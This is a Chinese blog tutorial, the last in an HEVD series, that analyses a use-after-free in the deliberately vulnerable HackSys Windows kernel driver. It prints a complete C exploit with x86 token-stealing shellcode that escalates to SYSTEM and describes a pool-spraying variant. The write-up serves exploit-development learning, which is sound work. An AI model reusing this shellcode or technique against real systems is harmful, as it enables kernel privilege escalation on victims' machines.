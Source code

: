 <small>转载请注明出处哦 :  )</small>

## 0x00 前言
这篇就是 HEVD 系列的最后一篇了，有些话我放在结尾说吧。

本篇的内容为 Use After Free 漏洞分析利用。

## 0x01 Use After Free 漏洞分析
按套路我们先打开 UseAfterFreeNonPagedPool.c 文件，这个文件代码相对之前做的稍微长一点，但其实也不算长，毕竟就算是 wrk 的文件也动不动就是好几千行。

这里我就不解释源码了，大家认真阅读一下就可以知道。

可以看到，漏洞发生在 Free 函数中

![alt 1](images/useAfterFree/1.jpg)

当我们用 Alloc 函数在非换页池中分配完空间并使 g_UseAfterFreeObjectNonPagedPool 指向这段空间后，在 Free 函数的时候只释放了这段非换页池空间但并没有将 g_UseAfterFreeObjectNonPagedPool 指针置 NULL。

再看到 UseUaFObjectNonPagedPool 函数中，若 g_UseAfterFreeObjectNonPagedPool 不为 NULL 将执行 g_UseAfterFreeObjectNonPagedPool->Callback()

那么利用就很清晰了，我们只需要
> 1. 利用 Alloc 函数分配空间并使 g_UseAfterFreeObjectNonPagedPool 指向该段空间
> 2. 调用 Free 函数释放这段空间，但 g_UseAfterFreeObjectNonPagedPool 仍然指向该空间
> 3. 调用 AllocFake 来使页面变脏，使 g_UseAfterFreeObjectNonPagedPool -> Callback 的位置变为我们 shellcode 的地址
> 4. 调用 UseUaFObjectNonPagedPool 触发 g_UseAfterFreeObjectNonPagedPool->Callback() 来执行我们的 shellcode

## 0x02 Use After Free 漏洞利用
这里有个问题就是，Free 函数释放掉的 Alloc 函数分配的空间跟之后 AllocFake 分配的空间是同一块吗？（注意到 Alloc 和 AllocFake 申请的空间大小是相等的）

这就涉及到 Windows 的内存管理算法了。其实你释放掉一块空间后立马又申请一块大小相等的空间内存管理器是倾向于分配同一块空间给你的。

所以我们只需要这么一段代码就能提权了

```c
// useAfterFree.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

#define UseUafObject 0x222017
#define	AllocateUafObject 0x222013
#define FreeUafObject 0x22201b
#define AllocateFakeUafObject 0x22201f

typedef struct _FAKE_OBJECT_NON_PAGED_POOL
{
	char Buffer[0x58];
} FakeObject, *PFakeObject;

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
};

int main()
{
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	PFakeObject pfakeObject = (PFakeObject) malloc(sizeof(FakeObject));
	memset(pfakeObject, '\x42', sizeof(FakeObject));

	*(PDWORD)pfakeObject = (DWORD)ptr;

	int noUseBuf = 0x1;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, AllocateUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, FreeUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, AllocateFakeUafObject, pfakeObject, sizeof(FakeObject), NULL, 0, &lpBytesReturned, NULL);

	DeviceIoControl(hevDevice, UseUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

    return 0;
}

```
运行起来下个断点看看

![alt 2](images/useAfterFree/2.jpg)

可以看到，Alloc 和 AllocFake 申请的非换页池的基址是一模一样的。

到这里其实已经解完了。解完之后我又想看看别的师傅是怎么做的，然后我就熟练地打开了 [rookit 师傅的博客](https://rootkits.xyz/blog/2018/04/kernel-use-after-free/)

可以看到他的方法和我是不一样的。虽然在这里是没必要用这个方法的，但是若 Alloc 和 AllocFake 分配的空间基址不同呢，比如说两块空间不一样大的情况。

还记得我们在池溢出一章中用到的池喷射吗？这里使用的是 IoCompletionReserve 对象，因为 IoCompletionReserve 在非换页池中的大小正好是 0x60。（pool header + 0x58 = 0x60） IoCompletionReserve 对象可以通过 NtAllocateReserveObject 函数来获得。

就像我们在池溢出一章中所做的一样，先用 10000 个 IoCompletionReserve 对象来把非换页池中的碎片填满，就算之后还有碎片的存在也放不下我们 0x60 个字节的 Alloc 对象。然后可以认为之后分配的 5000 个 IoCompletionReserve 对象是连续的，在中间每隔一个 IoCompletionReserve 对象挖出一个 0x60 个字节的洞。然后调用 Alloc 函数，可以认为 Alloc 函数分配的空间是我们刚刚挖出的其中一个洞。释放掉 Alloc 对象之后用 AllocFake 对象填满所有挖出来的洞，那么 g_UseAfterFreeObjectNonPagedPool 指针一定是指向我们的 shellcode 的，最后调用函数 UseUaFObjectNonPagedPool 触发漏洞执行 shellcode 就好了。执行完 shellcode 之后记得回收我们刚刚分配的所有空间。

到这里也可以提权成功了。

## 0x03 结束语
好了，至此 HEVD 项目的学习就告一段落了。

非常感谢该项目的提供者。HEVD 确实是一个适合学习、适合入门的项目，我在这些天的过程中确实学到了很多。

之后一段时间打算着手于 CVE 漏洞的复现，也就是将漏洞的分析利用从学习环境挪到真实环境下了，将平台从 x86 扩展到 x64 环境下。

最后，看看自己有没有那个水平走上挖洞的路了。

： )

---

<p align='right'>2019.9.7</p>


